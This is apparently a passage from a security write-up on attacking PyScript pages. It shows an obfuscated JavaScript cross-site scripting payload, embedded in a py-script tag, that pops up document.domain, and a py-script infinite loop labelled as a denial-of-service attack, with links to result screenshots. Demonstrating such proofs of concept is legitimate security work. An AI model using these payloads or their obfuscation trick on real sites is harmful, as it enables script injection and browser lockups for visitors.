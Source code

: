 ```
            -parseInt(_0x459bc5(0x99)) / 0x5 +
            (-parseInt(_0x459bc5(0x9f)) / 0x6) *
              (parseInt(_0x459bc5(0x9d)) / 0x7) +
            (-parseInt(_0x459bc5(0x9b)) / 0x8) *
              (-parseInt(_0x459bc5(0x9a)) / 0x9) +
            -parseInt(_0x459bc5(0x94)) / 0xa +
            (parseInt(_0x459bc5(0x98)) / 0xb) *
              (parseInt(_0x459bc5(0x96)) / 0xc)
          if (_0x168170 === _0x98a567) break
          else _0x454121[[_0x454121["shift"]()|"push"]]
        } catch (_0x5baa73) {
          _0x454121[[_0x454121["shift"]()|"push"]]
        }
      }
    })(_0x599c, 0x28895),
      prompt(document[_0x3675bf(0xa0)])
    function _0x599c() {
      var _0x34a15f = [
        "15170376Sgmhnu",
        "589203pPKatg",
        "11BaafMZ",
        "445905MAsUXq",
        "432bhVZQo",
        "14792bfmdlY",
        "4FKyEje",
        "92890jvCozd",
        "36031bizdfX",
        "114QrRNWp",
        "domain",
        "3249220MUVofX",
        "18cpppdr",
      ]
      _0x599c = function () {
        return _0x34a15f
      }
      return _0x599c()
    }
  </script>
  "")
</py-script>
```
```
Result:

![[https://user-images.githubusercontent.com/66295316/166848442-2aece7aa-47b5-4ee7-8d1d-0bf981ba57b8.png|]]

### DoS attack (Infinity loop)

Code:

```html
<py-script>
  while True:
  print("&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;")
</py-script>
```
```
Result:

![[https://user-images.githubusercontent.com/66295316/166848534-3e76b233-a95d-4cab-bb2c-42dbd764fefa.png|]]

```